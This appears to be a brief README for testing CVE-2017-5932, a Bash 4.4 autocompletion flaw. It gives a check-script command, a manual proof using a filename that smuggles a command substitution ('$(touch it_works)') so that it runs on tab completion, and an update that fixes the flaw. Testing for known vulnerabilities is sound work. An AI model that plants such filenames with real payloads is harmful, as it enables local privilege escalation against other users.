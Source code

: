 # CVE-2017-5932

### Description
The path autocompletion feature in Bash 4.4 allows local users to gain privileges via a crafted filename starting with a " (double quote) character and a command substitution metacharacter.
### Command to run
```shell
python cve_debian.py -n 2017-5932 -r bullseye -d bash -s
```

### Simple testing method

```shell
su toto;
cd
touch '" $(touch it_works)'
rm \" $(touch it_works) ^C #Type auto-completion key after " and then cancel 
ls
```
The file `it_works` is created.

If bash is updated :
```shell
apt-get install bash
```
The vulnerability is fixed.
